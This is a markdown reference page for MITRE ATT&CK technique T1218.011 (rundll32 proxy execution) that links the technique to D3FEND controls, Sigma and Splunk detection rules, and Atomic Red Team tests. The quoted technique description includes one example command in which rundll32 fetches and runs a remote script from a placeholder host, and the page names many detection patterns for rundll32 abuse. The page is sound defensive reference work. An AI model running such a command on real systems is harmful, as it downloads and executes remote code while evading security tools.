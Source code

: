 # T1218.011: Rundll32
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/011)**
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 6

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [File Analysis](https://d3fend.mitre.org/techniques/d3f:FileAnalysis)
* [Process Spawn Analysis](https://d3fend.mitre.org/techniques/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/techniques/d3f:SystemCallAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/techniques/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/techniques/d3f:SystemCallFiltering)
* [Decoy File](https://d3fend.mitre.org/techniques/d3f:DecoyFile)

## Technical Controls (Detection Rules)
### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped rules:** 159

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [car/analytics/CAR-2014-03-006.yaml](https://github.com/mitre-attack/car/blob/master/analytics/CAR-2014-03-006.yaml)

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped rules:** 2330

**ATT&CK-mapped resources for this (sub)technique:** 27

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/SigmaHQ/sigma/tree/master/rules):

* [sigma/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml)
* [sigma/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml)
* [sigma/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_crime_fireball.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_crime_fireball.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml)
* [sigma/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml)

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped rules:** 1393

**ATT&CK-mapped resources for this (sub)technique:** 16

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/splunk/security_content/tree/develop/detections):

* [security_content/detections/deprecated/suspicious_rundll32_rename.yml](https://github.com/splunk/security_content/blob/develop/detections/deprecated/suspicious_rundll32_rename.yml)
* [security_content/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml)
* [security_content/detections/endpoint/rundll_loading_dll_by_ordinal.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll_loading_dll_by_ordinal.yml)
* [security_content/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml)
* [security_content/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml)
* [security_content/detections/endpoint/rundll32_control_rundll_hunt.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_hunt.yml)
* [security_content/detections/endpoint/rundll32_lockworkstation.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_lockworkstation.yml)
* [security_content/detections/endpoint/rundll32_process_creating_exe_dll_files.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_process_creating_exe_dll_files.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml)
* [security_content/detections/endpoint/suspicious_rundll32_dllregisterserver.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_dllregisterserver.yml)
* [security_content/detections/endpoint/rundll32_dnsquery.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_dnsquery.yml)
* [security_content/detections/endpoint/suspicious_rundll32_plugininit.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_plugininit.yml)
* [security_content/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml)
* [security_content/detections/endpoint/suspicious_rundll32_startw.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_startw.yml)
* [security_content/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml)


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped tests:** 1161

**ATT&CK-mapped resources for this (sub)technique:** 11

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.011/T1218.011.yaml):

* Rundll32 execute JavaScript Remote Payload With GetObject
* Rundll32 execute VBscript command
* Rundll32 advpack.dll Execution
* Rundll32 ieadvpack.dll Execution
* Rundll32 syssetup.dll Execution
* Rundll32 setupapi.dll Execution
* Execution of HTA and VBS Files using Rundll32 and URL.dll
* Launches an executable using Rundll32 and pcwutl.dll
* Execution of non-dll using rundll32.exe
* Rundll32 with Ordinal Value
* Rundll32 with Control_RunDLL

### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** April 28, 2022

**Total ATT&CK-mapped tests:** 70

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [car/analytics/CAR-2014-03-006.yaml](https://github.com/mitre-attack/car/blob/master/analytics/CAR-2014-03-006.yaml): 1 <code>unit_tests</code>


